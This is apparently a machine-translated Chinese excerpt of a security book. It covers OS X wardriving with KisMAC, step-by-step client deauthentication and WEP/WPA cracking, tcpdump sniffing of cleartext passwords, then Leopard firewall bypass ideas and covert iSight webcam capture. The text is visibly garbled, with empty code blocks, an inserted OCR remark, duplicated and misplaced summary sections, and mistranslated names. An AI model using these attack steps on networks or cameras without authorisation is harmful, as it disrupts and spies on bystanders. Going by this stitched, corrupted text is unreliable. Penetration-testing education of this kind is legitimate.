

确保你使用的是 GPS 坐标，并选中了所有点，且 GPSd 正在监听 localhost 2947。现在你的 GPS 已经配置好并准备就绪了。要安装 GPS，请从 http://gpsd.berlio.de/ 下载 OS X 版本的 GPSd。编译和使用 GPSd 的说明可以参阅 (http://kismac.binervarianz.de/wiki/wiki.php/KisMAC/WiFiHacksCompileGPSd)。

另一个选项是使用蓝牙 GPS；但根据 KisMAC 网站显示，OS X 的蓝牙栈存在问题；你仍然需要配合设备使用 GPSd。

#### 准备导入

现在你的 GPS 设备已连接，可以准备导入地图了。要导入地图，请选择 `File` | `Import` | `Map from` | `Server`。


# 图 6.11 准备导入地图



这将打开“下载地图”对话框（参见图 6.12）。当前的 GPS 坐标会自动导入到此框中。选择你想导入的服务器和地图类型。

# 图 6.12 选择地图服务器和地图类型



有多个可用的地图服务器以及不同类型的地图（例如：普通或卫星图）（参见图 6.12）。

# 图 6.13 可用的地图服务器和地图类型



导入地图后，点击“保存地图”将其保存，这样即使在无线驱动期间 KisMAC 崩溃，你也会有一个本地副本。KisMAC 是一个优秀的工具，但偶尔会崩溃，这在同时发现大量网络时可能会发生。此外，KisMAC 包含许多攻击需要大量的内存和处理器性能。更不幸的是，当 KisMAC 崩溃时，系统通常停止响应，需要完全关闭并重启系统才能恢复操作。

路点 1 设置为当前位置。在开始无线驱动之前，你需要设置路点 2。在 OS X 工具栏上点击 `Map` | `Set Waypoint 2`，并将第二个路点放置在你的目的地，或者如果你不确定目的地，放置在地图上的任何地方。

接下来，点击 KisMAC 偏好（参见图 6.14）来设置你的“地图”偏好，在这里你可以设置地图上使用的配色方案，以及某些颜色表示的显示质量和灵敏度。

# 图 6.14 KisMAC 地图偏好



设置好所有选项后，就可以开始无线驱动了。随着接入点的发现，它们将标记绘制在地图上。点击“显示地图”按钮将显示你的地图，并且你的接入点会在你行驶时实时绘制。KisMAC 使用卫星图像生成的典型地图如图 6.15 所示。

# 图 6.15 典型的 KisMAC 卫星地图



KisMAC 还包含了操作你地图的能力。

> **地下室笔记**

#### 禁用烦人的“睡眠”功能

对于无线驱动者来说，OS X 令人恼火的特性之一是无法禁用“睡眠”功能。在许多州，打开笔记本电脑进行驾驶是违法的。处于睡眠状态且不收集接入点的笔记本对 OS X 无线驱动者来说是一个棘手的问题。幸运的是，有一个内核扩展可以允许你临时禁用 OS X 睡眠功能。

Insomnia (http://binaervanz.de/projekt/programieren/meltmac/) 是一种用于禁用 OS X 睡眠的内核扩展。下载 Insomnia 后，解压内核扩展并执行以下命令：

```
```


```
sudo chown -R root:wheel Insomnia.kext
```


这会正确设置权限。（注：原文 OCR 文本在此处包含重复/损坏的命令；我已清理了逻辑流）。

Insomnia... Apple 笔记本电脑会产生大量热量，因此一直开启此扩展不是好主意。

# 使用 KisMAC 进行无线驱动

现在已经设置好了偏好、选择了正确的驱动程序并导入了地图，是时候出发了。KisMAC 界面易于导航。

## 使用 MAC 界面

### 图 6.16 图形界面



如果你已经配置了无线驱动选项，点击右下角的“开始扫描”（`Start Scan`）按钮开始定位接入点。此外，底部工具栏上有四个按钮允许你查看特定信息。

### 图 6.17 KisMAC 查看按钮

“显示网络”（`Show Networks`）按钮是默认设置。在选择其他选项后，要返回默认设置，请点击此按钮查看所有发现的网络。

### 图 6.19 “显示详情”视图



默认视图中列出的信息位于界面左侧，而连接到网络的客户端信息位于界面右侧。此视图中的可用信息对于渗透测试人员来说至关重要，将在本章的“使用 OS X 进行渗透测试”节中讨论。

## KisMAC 的附加视图选项

除了“视图”按钮外，KisMAC 还允许您在“显示网络”视图中获取有关特定网络的额外信息。使用 OS X 菜单栏，点击 `Windows > Show Hierarchy`（显示层级结构）（见图 6.20）。

### 图 6.20 OS X 菜单层级



显示“显示层级结构”后，您可以收集更多关于特定网络的信息；使用不同类型加密的网络；或在特定信道上传输的所有网络。这些信息在渗透测试期间至关重要。

### 图 6.21 “KisMAC 层级结构”视图



## 使用 OS X 进行渗透测试

KisMAC 除了作为无线驱动（WarDriving）应用程序外，还是用于无线网络渗透测试的最佳工具。KisMAC 内置了许多功能，可以使用简单的“点点”界面执行许多常见的 WLAN 攻击。此外，KisMAC 还可以从其他程序导入数据包捕获文件，以对无线网络进行多种攻击。本节将介绍针对目标网络进行的许多此类攻击。

以下是一个工作示例。你受雇为一家公司进行渗透测试，并需要正确识别其无线网络。通过在对目标周围区域进行无线驱动时收集的信息，你根据信号强度、地图数据以及接入点上使用的命名规范，成功识别了目标网络。要成功渗透该网络，你必须确定正在使用的是哪种加密类型。

## 使用 KisMAC 攻击 WLAN 加密

无线网络采用多种不同类型的加密。最常用的加密方案是 `WEP` 和 `WPA`，尽管还有其他更先进的方案可用。查看 KisMAC 的显示，你会发现 SSID 为 `Out_Target` 的接入点是一个 `WEP` 加密网络。

## 使用 KisMAC 攻击 WEP

由于你已经确定目标无线网络使用了 `WEP`，你现在必须决定如何破解密钥。KisMAC 内置了三种主要的 `WEP` 破解方法：

- 字典列表攻击（`Wordlist attacks`）
- 弱调度攻击（`Weak scheduling attacks`）
- 暴力破解攻击（`Bruteforce attacks`）


要使用这些攻击之一，你必须生成足够数量的初始化向量（`IVs`）以使攻击生效。实现此目标最简单的方法是重新注入流量，这通常通过捕获地址解析协议（`ARP`）数据包、伪造发送者并将其发送到接入点来实现。这会产生大量可以被捕获和解码的流量。遗憾的是，在正常情况下你并不总是能捕获到 `ARP` 数据包；但是当客户端接入接入点时，通常会生成 `ARP` 数据包。因此，如果你可以取消网络上客户端的身份验证并迫使它们重新关联，你可能会获得你所需的 `ARP` 数据包。

查看 `Our_Target` 的详细视图，你可以看到有多个客户端连接到它。在进行攻击连接之前，你需要确定 KisMAC 将扮演的角色。成功破解 `WEP` 密钥需要两个主机：一个主机用于注入流量，另一个主机用于捕获流量（特别是 `IVs`）。在这种情况下，你将使用 KisMAC 进行注入，并使用第二个主机进行捕获。实际的破解最好在利用如 `Aircrack` 等工具的 Linux 主机上执行，因为 KisMAC 不支持许多较新的 `WEP` 攻击（例如切片攻击/chopping）。希望这些攻击将包含在 KisMAC 未来版本中。

使用 KisMAC 取消客户端身份验证非常简单；但在开始取消身份验证之前，你必须将 KisMAC 锁定到目标网络使用的特定信道上。从顶部菜单点击 `KisMAC / Preferences / Driver Preferences`。突出你正在使用的驱动程序，并取消勾选目标网络使用之外的所有信道。此外，确保“Injection”菜单下的“作为主设备使用”（`use as primary device`）已勾选。关闭“Preferences”，突出你想要取消身份验证的接入点，然后点击 `Network / Deauthenticate`。如果 KisMAC 成功尝试取消身份验证，对话框将改变并显示其正在取消身份验证的接入点的 `BSSID`（见图 6.22）。在取消身份验证期间，客户端无法使用无线网络。

### 图 6.22 取消身份验证（Deauthentication）


在取消身份验证期间，`IV` 的数量应该增加。

### 图 6.23 准备重新注入



### 图 6.24 测试数据包


### 图 6.25 重新注入


## 使用 KisMAC 攻击 WPA

与 `WEP` 不同，`WEP` 需要生成大量流量来破解密钥，而破解 `WPA` 只需要捕获身份时的四次可扩展认证协议局域网（`EAPOL`）握手。此外，`WPA` 攻击是离线字典攻击，这意味着当你使用 KisMAC 破解 `WPA` 预共享密钥（`PSK`）时，只有在使用短密码时 `WPA` 才会受到影响。即便如此，它也必须是字典单词或词列表中的词。包含大量字母、数字和特殊字符的扩展字典有助于增加成功破解 `WPA` 的概率。

要使用 KisMAC 尝试字典攻击，你可能需要取消身份验证（在“使用 KisMAC 攻击 WEP”节详细介绍）。然而，在对 `WPA` 进行字典攻击时，所有操作可以在一个主机上完成，这将客户端分离网络并强制它们重新连接。这需要传输四次 `EAPOL` 握手。

一旦捕获到客户端与 `WPA` 网络之间的关联，点击 `Network / Crack / Wordlist Attack WPA-PSK Key`。系统将提示要使用的字典列表或字典文件的位置。选择字典文件后，KisMAC 开始使用文件中的每个单词测试 `WPA` 预共享密钥（`PSK`）。

### 图 6.26 WPA 破解


当 KisMAC 成功确定密钥后，它将显示在“显示详情”（`Show Details`）视图中。

## 其他攻击方法

KisMAC 还提供了对其他形式的加密和认证进行攻击的能力。由于这些其他方法存在已知漏洞且很少被客户端使用，因此文中未进行详细讨论，但为了完整性已将其包含在内。

### 针对 40-bit WEP 的暴力破解攻击

KisMAC 包含了对 `40-bit WEP` 密钥进行暴力破解的功能。KisMAC 有四种方式可以实现这一目标：

- 所有可能的字符
- 仅限字母数字
- 仅限小写字母
- `Newshams 21-位攻击`

这些攻击中的每一种都非常有效，但也非常耗费时间和处理器资源。

### 字典列表攻击

除了 `WPA` 攻击外，KisMAC 还提供了执行多种类型字典列表攻击的功能。Cisco 开发了轻量级扩展认证协议（`LEAP`），以帮助关注 `WEP` 漏洞的机构。遗憾的是，`LEAP` 同样容易受到类似于 `WPA` 的字典列表攻击。KisMAC 包含了通过与破解 `WPA` 相同的程序对 `LEAP` 执行字典列表攻击的功能。选择针对 `LEAP` 的密钥开始攻击。

此外，还可以同样的方式对 `40-位` 和 `104-位 Apple` 密钥或 `104-位` 消息摘要 5 (`MD5`) 密钥发起字典列表攻击。与任何字典攻击一样，这些攻击只有在执行攻击时使用全面的字典文件时才有效（见 `www.securitytribe.com/~roamer/words.txt`）。

## 用于无线驱动和 WLAN 测试的其他 OS X 工具

KisMAC 一直本章的重点；然而，还有几种无线工具可以让 OS X 黑客忙碌几个小时。

`EtherPEG` (`www.etherpeg.org`) 是一个程序，可以捕获并显示跨网络（包括 `WLAN`）的所有联合图像专家组（`JPEG`）和图形交换格式（`GIF`）图像。为了对无线网络使用 `EtherPEG`，必须没有使用加密，或者你已经连接到该网络。

`iStumbler` (`http://istumbler.net/`) 是一款适用于 OS X 的主动 `WLAN` 发现工具，与内置的 `Airport Express` 卡配合工作。除了 `WLAN` 发现外，`iStumbler` 还可以使用内置的蓝牙适配器检测蓝牙设备。`iStumbler` 无需设置；只需解压存档并点击 `iStumbler` 图标即可开始。

### 图 6.27 iStumbler


随着 OS X Tiger 的发布，已经开发并发布了几个 Dashboard 小部件，它们可以使用 `Airport` 和 `Airport Express` 卡进行主动扫描（例如 `Air Traffic Control`）（见图 6.28）。

### 图 6.28 Air Traffic Control


Dashboard 小部件定期更新，几乎每天都会发布新部件。在 `www.apple.com/downloads/dashboard` 查看最新的无线发现部件，并从“部件导航”菜单中选择“网络与安全”选项。

`Tcpdump` 是随 OS X 附带的网络流量分析器（嗅探器）。`Tcpdump` 可以配置为监听无线接口，并使用以下命令捕获跨 `WLAN` 的流量：

```
sudo tcpdump -i en1
```

`Tcpdump` 可用于捕获以明文发送的用户名和密码（电子邮件、网络基本输入输出系统 [`NetBIOS`] 等）。

## 总结

人们考虑到无线驱动（WarDriving）和攻击无线网络时，Linux 通常是第一个想到的操作系统。虽然 Linux 有非常出色的工具，但 OS X 上也为无线黑客提供了几个许多出色的工具。

KisMAC 是 OS X 上最流行的无线驱动应用程序。因为它提供了主动和被动扫描的选项，并支持大量的芯片组，因此它非常适合无线驱动。再加上易于设置和配置，KisMAC 成为可用无线驱动应用程序中的之一，甚至可以说是最顶尖的。

除了作为无线驱动应用程序的强大功能外，KisMAC 还是一个非常强大的 `WLAN` 渗透测试工具。它提供了许多针对 `WEP` 最流行的攻击（仅遗漏了一个），并为渗透测试人员对某些在其他操作系统上传统上困难的攻击提供了简单的点点点击选项（例如，取消认证和流量拒绝）。在其他操作系统上用于此类攻击的工具要么难以使用，要么受到限制，因此使用 KisMAC 的点点点击方法是一个受欢迎的改变。

虽然 KisMAC 非常出色，但它并不是 OS X 上唯一的 `WLAN` 发现工具。`iStumbler` 的功能集比 KisMAC 小得多，但它极其易用，并且包含了蓝牙功能。还可以从 Apple 网站下载几个 Dashboard 小部件，它们可以与 `Airport` 和 `Airport Express` 卡配合执行主动 `WLAN` 发现。

无线黑客将很难找到除 OS X 之外的操作系统。

### 解决方案快速通道

## 使用 KisMAC 进行无线驱动

- KisMAC 是 OS X 上最流行的无线驱动应用程序。因为它提供了主动和被动扫描的选项，并支持大量的芯片组，因此它非常适合无线驱动。再加上易于设置和配置，KisMAC 成为可用无线驱动应用程序中的之一，甚至可以说是最顶尖的。
- 除了作为无线驱动应用程序的强大功能外，KisMAC 还是一个非常强大的 `WLAN` 渗透测试工具。它提供了许多针对 `WEP` 最流行的攻击（仅遗漏了一个），并为渗透测试人员对某些在其他操作系统上传统上困难的攻击提供了简单的点点点击选项（例如，取消认证和流量拒绝）。在其他操作系统上用于此类攻击的工具要么难以使用，要么受到限制，因此使用 KisMAC 的点点点击方法是一个受欢迎的改变。
- 虽然 KisMAC 非常出色，但它并不是 OS X 上唯一的 `WLAN` 发现工具。`iStumbler` 的功能集比 KisMAC 小得多，但它极其易用，并且包含了蓝牙功能。还可以从 Apple 网站下载几个 Dashboard 小部件，它们可以与 `Airport` 和 `Airport Express` 卡配合执行主动 `WLAN` 发现。

## 使用 KisMAC 进行渗透测试

- KisMAC 包含了对 `40-bit WEP` 密钥进行暴力破解的功能。KisMAC 有四种方式可以实现这一目标：
  - 所有可能的字符
  - 仅限字母数字
  - 仅限小写字母
  - `Newshams 21-位攻击`
- 这些攻击中的每一种都非常有效，但也非常耗费时间和处理器资源。
- 除了 `WPA` 攻击外，KisMAC 还提供了执行多种类型字典列表攻击的功能。`LEAP` 同样容易受到类似的字典列表攻击。KisMAC 包含了通过与破解 `WPA` 相同的程序对 `LEAP` 执行字典列表攻击。选择针对 `LEAP` 的密钥开始攻击。
- 此外，还可以同样的方式对 `40-位` 和 `104-位 Apple` 密钥或 `104-位` 消息摘要 5 (`MD5`) 密钥发起字典列表攻击。与任何字典攻击一样，这些攻击只有在执行攻击时使用全面的字典文件时才有效（见 `www.securitytribe.com/~roamer/words.txt`）。

## 用于无线驱动和 WLAN 测试的其他 OS X 工具

- 当 KisMAC 成功确定密钥后，它将显示在“显示详情”（`Show Details`）视图中。
- KisMAC 还提供了对其他形式的加密和认证进行攻击的能力。 一直是本章的重点；然而，还有几种无线工具可以让 OS X 黑客忙碌几个小时。
- `EtherPEG` (`www.etherpeg.org`) 是一个程序，可以捕获并显示跨网络（包括 `WLAN`）的所有联合图像专家组（`JPEG`）和图形交换格式（`GIF`）图像。为了对无线网络使用 `EtherPEG`，必须没有使用加密，或者你已经连接到该网络。
- `iStumbler` (`http://istumbler.net/`) 是一款适用于 OS X 的主动 `WLAN` 发现工具，与内置的 `Airport Express` 卡配合工作。除了 `WLAN` 发现，`iStumbler` 还可以使用内置的蓝牙适配器检测蓝牙设备。`iStumbler` 无需设置；只需解压存档并点击 `iStumbler` 图标即可开始。
- 随着 OS X Tiger 的发布，已经开发并发布了几个 Dashboard 小部件，它们可以使用 `Airport` 和 `Airport Express` 卡进行主动扫描（例如 `Air Traffic Control`）（见图 6.28）。

### 常见问题

- **图 6.28 Air Traffic Control**
  Dashboard 小部件定期更新，几乎每天都会发布新部件。在 `www.apple.com/downloads/dashboard` 查看最新的无线发现部件，并从“部件导航”菜单中选择“网络与安全”选项。
- `Tcpdump` 是随 OS X 附带的网络流量分析器（嗅探器）。`Tcpdump` 可以配置为监听无线接口，并使用以下命令捕获跨 `WLAN` 的流量：
  ```
  sudo tcpdump -i en1
  ```
- `Tcpdump` 可用于捕获以明文发送的用户名和密码（电子邮件、网络基本输入输出系统 [`NetBIOS`] 等）。

## 总结

- 人们考虑到无线驱动（WarDriving）和攻击无线网络时，Linux 通常是第一个想到的操作系统。虽然 Linux 有非常出色的工具，但 OS X 上也为无线黑客提供了几个许多出色的工具。
- KisMAC 是 OS X 上最流行的无线驱动应用程序。因为它提供了主动和被动扫描的选项，并支持大量的芯片组，因此它非常适合无线驱动。再加上易于设置和配置，KisMAC 成为可用无线驱动应用程序中的之一，甚至可以说是最顶尖的。
- 除了作为无线驱动应用程序的强大功能外，KisMAC 还是一个非常强大的 `WLAN` 渗透测试工具。它提供了许多针对 `WEP` 最流行的攻击（仅遗漏了一个），并为渗透测试人员对某些在其他操作系统上传统上困难的攻击提供了简单的点点点击选项（例如，取消认证和流量拒绝）。在其他操作系统上用于此类攻击的工具要么难以使用，要么受到限制，因此使用 KisMAC 的点点点击方法是一个受欢迎的改变。
- 虽然 KisMAC 非常出色，但它并不是 OS X 上唯一的 `WLAN` 发现工具。`iStumbler` 的功能集比 KisMAC 小得多，但它极其易用，并且包含了蓝牙功能。还可以从 Apple 网站下载几个 Dashboard 小部件，它们可以与 `Airport` 和 `Airport Express` 卡配合执行主动 `WLAN` 发现。
- 无线黑客将很难找到除 OS X 之外的操作系统。

**Q: 为什么我想导出为 NetStumbler 格式？**

**A:** 导出为 NetStumbler 格式有几个很好的理由。首先，它允许你在完成后使用各种映射工具来映射你的驱动器。其次，NetStumbler 对将 WarDrive 数据导出到不同格式具有极佳的支持。一旦你将 KisMAC 数据导入 NetStumbler，你就有能力导出到这些格式中的任何一种。

# 第 7 章


本章的解决方案：

- `Leopard`（雪豹）与 `Tiger`（老虎）的规避
- `Leopard` 与地址空间布局随机化 (`ASLR`)

# Leopard 与 Tiger 的规避

以下章节涵盖了 Mac 操作系统 (`OS`) `Tiger` 和 `Leopard` 的一些利用技术、技巧和特性，并使用真实场景来解释和演示其背后的概念。为了完整性，文中充分引用了现有项目、代码和文档的技术参考，强烈建议你也阅读这些内容。

## 应用程序防火墙

`Leopard` 推出时对其改进和翻新的防火墙功能大加宣传，引起了安全社区的关注。它的设计可以描述为应用程序级和接字级控制的混合。例如，此应用程序被信任入站连接，或者阻止所有其他连接并允许特定应用程序通过。

现在，由于某些如 `MDNS` 的广告和广播服务的存在，以及 Apple 在某种程度上引入了“应用程序信任性”的错觉，现实略有不同。Heise Security 对其真实功能进行了初步审查，发现其实现中存在许多不一致之处，例如无论使用什么设置，某些服务都会暴露在网络中。

> `www.heise-online.co.uk/security/features/print/98120.`

Brad "spender"（`grsecurity` 项目背后的资深开发者）实现了一种基于用户和用户组的类似方法，具有更好的执行力，细粒度控制的可能性（尽管这涉及使用自定义用户组等杂乱配置）。它可能缺乏图形用户界面 (`GUI`)，但确实有效。

在过去，一直有针对破解软件防火墙的技术研究，最著名的是发表在 Phrack 杂志上的一篇文章，标题为《使用进程感染绕 Windows 软件防火墙》（见 `www.phrack.org/issues.html?issue=62&id=13&mode=txt`）。

这些相同的概念也可以解释如何绕过 `Leopard` 防火墙，而且我们不需要那种程度的技术复杂度：

- 在进程级别，代码注入（通过库、内存操作或文件感染）将使防火墙对任何威胁都失效。单用这种方法就可以被轻易滥用，但分阶段耦合远程载荷会产生相同的结果。`Metasploit` 等框架在创建分阶段 shellcode 方面进一步加强了这一点。


- 对可执行文件签名可能会防止磁盘上的篡改，但对于经验丰富的攻击者来说，这通常是最无趣的方法。环境的长期修改定会被取证发现。因此，载荷更有可能使用 `Mach` 应用程序接口 (`API`) 与进程进行低级交互并将代码注入到其内存中。目前的任何 `OS X` 版本都没有必要的措施来检测这种行为，即使未来实施了这些措施，如果没有硬件和复杂的机制，它们也容易被破解。如果你的安全措施可以被破解，那么从长远来看，没有它可能反而更好。与其拥有可以用来把自己锁在里面的系统，不如没有锁定系统。

- 基于通信方向（入站 - 出站）的控制太原生了，并不实用。结合它是基于应用程序运行的事实，允许 `PHP`、`Ruby` 或 `Python` 等脚本解释器本质上允许任何人使用脚本载荷执行 socket 操作，从而全程绕过防火墙。同样，`Metasploit` 提供了 `PHP` 和其他载荷。更简单的例子是允许 `Netcat` 运行。

（见 `http://blog.metasploit.com/2007/10/reliable-staging-without-stager-receive.html。`）

（见 `http://blog.subre.com/2007/12/17/other-weaknesses-of-the-mac-os-x-firewall/。`）

## iSight 窥淫

感谢 `Quicktime API`，使用 `iSight` 摄像头相当容易，除非要处理 `API` 和可能过时的接口。此外，`Macbook` 笔记本配备了集成显微镜，结合真实的视频捕获，我们就有了一个强大的监控工具，如果不是某种监控受感染主机周围环境的变态手段。已经存在恶意软件使用加密来勒索受害者以换取丢失数据的案例。也许在 `iSight` 上贴上胶带并没有听起来那么糟糕。

首先，你需要 `Carbon` 和 `Quicktime` 框架（在 `<Quicktime/Quicktime.h>` 头文件中），用于：

```
```


gcc iCeilingCat.c -o iCeilingCat -framework Carbon -framework Quicktime

# 第 7 章 • 安全与 OS X

我们将使用一个我在 2007 年 12 月在 Subreption LLC 开发的特定漏洞（截至编写时，这是公开可用的该技术的唯一漏洞，且由于其简单性，有助于初学者和普通读者理解该概念），该漏洞利用了 `mount_smbfs` 工具中一个明显的栈缓冲区溢出（幸运的是，它具有 root 权限并启用了 setuid）。

(http://static.subreption.com/public/exploits/mount_smbfs_root.c)。

